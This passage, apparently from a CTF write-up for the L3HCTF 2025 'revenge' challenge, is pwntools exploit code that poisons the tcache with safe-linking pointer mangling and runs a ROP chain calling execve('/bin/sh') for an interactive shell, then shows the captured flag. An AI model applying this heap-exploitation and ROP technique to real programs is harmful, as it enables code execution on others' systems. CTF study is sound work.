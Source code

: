 ```python
                         p64(PTR_PROTECT(heap_base + 0xec0, heap_base + 0x2a0)))
    note_destroy(6)
    note_destroy(7)
    note_exit()
    # add tcache entry by 0x30 (now pointing at fake chunk)
    for _ in range(3):
        game_attack()
    game_note()

    gadgets = ROP(libc)
    rdi = gadgets.rdi.address
    rsi = gadgets.rsi.address
    rdx = libc_base + 0xb5db0 # xor edx, edx; mov eax, edx; ret
    shstr = next(libc.search(b'/bin/sh'))
    chain = flat(rdi, shstr, rsi, 0, rdx, libc.symbols['execve'])

    note_write(8, 0x3e7, b'this will write chunk 0 to tcache entry')
    note_write(9, 0x3e7, p64(0) + chain)
    note_exit()
    game_exit()
    # as we've already hijack rbp to chunk 0, leave 2 times set rsp to chunk 0
    # and then run our rop chain

    t.clean(0.5)
    t.interactive()
    t.close()
```

{% note default fa-flag %}
![flag](/assets/l3hctf2025/revenge_flag.png)
{% endnote %}
